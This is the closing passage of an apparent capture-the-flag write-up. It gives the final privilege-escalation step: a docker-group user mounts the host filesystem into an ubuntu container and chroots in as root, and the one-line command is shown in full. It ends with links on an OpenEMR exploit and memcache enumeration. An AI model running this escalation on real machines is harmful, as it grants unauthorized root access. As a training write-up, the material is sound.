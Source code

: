 Since luffy is a group member of docker and an ubuntu container image is on the machine. I ran the command below to elevate my privilege to root user.

```bash
docker run -it -v /:/mnt ubuntu chroot /mnt sh
```


Thanks for reading !

# References
- [Public OpenEMR pentest report](https://www.open-emr.org/wiki/imageshttps://raw.githubusercontent.com/c00rni/c00rni.github.io/master/_posts/Openemr_insecurity.pdf)
- [OpenEMR version 5.0.1 authenticated RCE](https://www.exploit-db.com/exploits/48515)
- [How to dump memcache](https://www.hackingarticles.in/penetration-testing-on-memcached-server/)
- [Memcache enumeration](https://book.hacktricks.xyz/pentesting/11211-memcache)
- [Docker wikipedia page](https://en.wikipedia.org/wiki/Docker_(software))
